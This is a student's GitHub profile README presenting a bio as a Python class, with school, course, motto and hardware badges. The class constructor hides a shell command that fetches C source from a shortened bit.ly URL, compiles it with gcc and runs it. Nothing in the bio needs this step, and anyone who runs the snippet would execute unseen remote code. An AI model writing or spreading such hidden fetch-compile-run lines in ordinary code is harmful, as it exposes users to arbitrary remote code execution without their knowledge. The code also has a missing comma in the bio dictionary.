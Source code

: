 <h1 align="center">Yo 👋, I'm John Errol Dela Rosa 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🪪 Last name'                : 'Dela Rosa'
      '- 🙋‍♂️ You can call me'          : 'Jep',
      '- 🤷🏻‍♂️ What is this, nani'       : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'  : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in': 'Technological Institute of the Philippines',
      '- 🌱 I’m currently pursuing'   : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},

      '- 📓 Course code - title'      : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                  : 'CPE32S8',
      '- 📊 Elective'                 : 'Data Science',
      '- 🏨 Hotel'                    : 'Trivago',
      '- ❔ I dont know'              : '¯\_(ツ)_/¯',
      '- 👨‍💻 My website project'       : 'https://blogs.mtdv.me/blog/posts/jepowo',

      '- 💧 Motto in life'            : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),
      '- ⚡ Fun fact'              : ('Did you know? Bungee Gum possesses the properties of both rubber and gum.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/NVIDIA_1650-76b900?style=for-the-badge&logo=nvidia&logoColor=%23fff" alt="NVIDIA 1650"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/RYZEN_7_4800H-ed1c24?style=for-the-badge&logo=amd&logoColor=%23fff&label=AMD&labelColor=%23555" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/LAPTOP-000?style=for-the-badge&logo=hp&logoColor=%23fff&label=HP&labelColor=%23555" alt="HP"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/AKKO_3068B_PLUS-8071b3?style=for-the-badge&logo=akko-white"></a>
</p>
